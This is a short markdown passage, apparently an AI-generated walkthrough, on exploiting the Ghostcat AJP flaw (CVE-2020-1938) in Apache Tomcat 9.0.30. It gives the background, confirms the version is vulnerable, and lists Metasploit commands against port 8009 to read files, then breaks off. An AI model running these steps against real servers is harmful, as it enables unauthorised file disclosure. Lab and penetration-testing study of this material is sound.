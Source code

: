 ## 1) Quick background (why this works)

- The AJP connector (default port **8009**) in Tomcat can be abused (Ghostcat, **CVE-2020-1938**) to read files from webapps or even cause file inclusion in some setups. Tomcat **9.0.30** is in the vulnerable range. [Medium+2sonatype.com+2](https://medium.com/%40sushantkamble/apache-ghostcat-cve-2020-1938-explanation-and-walkthrough-23a9a1ae4a23?utm_source=chatgpt.com)
    

---

## 2) Confirm vulnerability (enumeration)

You already have `Apache Tomcat/9.0.30` from your scan — that matches known vulnerable versions. 

## 3) Read files via AJP (file read) — common approach

Metasploit includes modules to interact with AJP/Ghostcat:

```
msfconsole
# then:
use auxiliary/scanner/http/tomcat_ghostcat  # (module name may vary; search for "ghostcat")
set RHOSTS <TARGET_IP>
set RPORT 8009
run
```